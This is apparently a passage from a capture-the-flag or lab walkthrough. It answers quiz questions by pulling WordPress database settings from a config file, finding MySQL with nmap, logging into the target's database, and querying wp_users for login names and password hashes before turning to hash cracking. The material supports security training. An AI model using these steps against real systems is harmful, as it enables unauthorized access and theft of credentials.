 **Q1: Database name?**
```php
define('DB_NAME', 'database_name_here');
```

**Q2: Database credentials?**
```php
define('DB_USER', 'username_here');
define('DB_PASSWORD', 'password_here');
```

### 🔍 DBMS Identification
**Q3-Q5: Database service details from nmap:**
- **DBMS:** MySQL
- **Version:** [From nmap scan]
- **Port:** 3306

## 🗃️ MySQL Database Access

### 🔐 Database Connection
```bash
mysql -h <TARGET_IP> -u <DB_USER> -p
# Enter password when prompted
```

### 🔍 Database Exploration
```sql
-- Use the WordPress database
USE database_name;

-- List all tables
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name';

-- Find WordPress users table (usually wp_users)
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='wp_users';

-- Extract user data
SELECT ID, user_login, user_pass FROM wp_users;
```

### 🏆 Password Hash Extraction
**Q6: Encrypted password for user ID 1**
```sql
SELECT user_pass FROM wp_users WHERE ID = 1;
```

## 🔓 Password Cracking

### 🔍 Hash Identification
```bash
# Identify hash type
hash-identifier
# Or check WordPress documentation - typically phpass/WordPress hash
```
